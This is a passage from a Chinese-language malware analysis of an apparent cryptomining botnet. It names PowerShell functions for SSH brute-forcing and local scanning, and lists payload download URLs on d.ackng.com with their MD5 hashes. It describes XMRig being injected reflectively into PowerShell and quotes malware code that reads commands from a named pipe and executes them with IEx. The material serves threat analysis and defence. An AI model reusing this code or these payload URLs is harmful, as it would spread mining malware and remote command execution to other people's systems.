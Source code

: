 ```powershell
function sshbrute
function isPubIP 
function getipaddrs
function localscan 
```



##### m6.bin (XMRig)

若是64位系统，根据互斥锁（Global\eLocalMn）下载：

```
http://d.ackng.com/m6.bin?
MD5 (m6.bin) = 5b2849ff2e8c335dcc60fd2155b2d4d3
```

远程文件`m6.bin`中，包含XMRig程序：

以0x0A截断

*   前半部分为Powershell脚本
    *   长达2700多行，定义test1函数，及33个子函数
    *   疑似使用https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

*   后半部分为 PE32+ executable (console) x86-64, for MS Windows 可执行文件

使用test1反射式注入后半部分的exe文件到Powershell进程里运行，并且会在外部再次运行一次



##### m6g.bin (XMRig opencl cuda)

若是64位系统，且有AMD/NVIDIA的显卡，则根据互斥锁（Global\eLocalMng）下载：

```
http://d.ackng.com/m6g.bin
MD5 (m6g.bin) = 23d59ed726e13edabcb751da7a5ce310
```

与m6.bin的不同，它的API开放端口为：

```
http://127.0.0.1:43668/1/summary
```



##### if_mail.bin (使用Outlook传播生成的恶意文档)

```
http://d.ackng.com/if_mail.bin
MD5 (if_mail.bin) = 88949e6a329c6b2796ddcc81564cee1a
```

其部分核心代码：

```powershell
# 若是管理员权限，创建管道执行mail_code 
if(([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")){
    # powershell -c $pipe=new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'')
    # $pipe.WaitForConnection()
    # $sr=new-object System.IO.StreamReader($pipe)
    # $cmd=$sr.ReadToEnd()
    # $sr.Dispose()
    # $pipe.Dispose()
    # IEx($cmd)
    # (new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'')).WaitForConnection()
	$sesscmd='powershell -c $pipe=new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'');$pipe.WaitForConnection();$sr=new-object System.IO.StreamReader($pipe);$cmd=$sr.ReadToEnd();$sr.Dispose();$pipe.Dispose();IEx($cmd);(new-object System.IO.Pipes.NamedPipeServerStream(''\\.\pipe\HHyeuqi7'')).WaitForConnection()'
```
